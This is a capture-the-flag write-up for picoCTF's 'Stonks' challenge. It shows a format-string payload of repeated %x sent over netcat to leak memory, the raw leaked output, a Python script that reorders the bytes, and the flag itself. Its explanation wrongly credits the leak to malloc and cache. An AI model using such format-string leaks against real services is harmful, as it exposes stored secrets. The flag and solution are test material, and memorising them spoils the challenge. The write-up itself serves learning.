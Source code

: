 # Stonks

## Information

**Point Value**: 20 points  
**Category**: Binary Exploitation  
**Author**: MADSTACKS

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) nc mercury.picoctf.net 27912

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Solution

First things first, understand how the vuln.c code works, this will require some C knowledge.  
There you can find that the second input is using malloc(), knowing this, we can overload the memory and print out some things that are in cache.
Knowing this, access the netcat provided and use the first option. After that just spam a bunch of "%x"

```sh
$ %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

The program will print out some of the information stored, then it's pretty straightforward, get the output, that should look something like this:

```
ö;°H?ØÿÿÿñôÜpõö9_c°ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿª}÷üjø÷ù@#=4÷âé÷ù À÷øµÀ÷ø°ÿªî÷á÷øµÀHì¯ú®é
```

Then take out the flag and rearrange it, I did it with Python, just for the sake of it.

```py
str = "ocip{FTC0l_I4_t5m_ll0m_y_y3n2fc10a10ÿª}÷üjø÷ù"
str = str[0:len(str)-len(str)%4]
result = ""
chunks = [str[i:i+4] for i in range(0, len(str), 4)]

for chunk in chunks:
    result += chunk[::-1]

print(result)
```

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
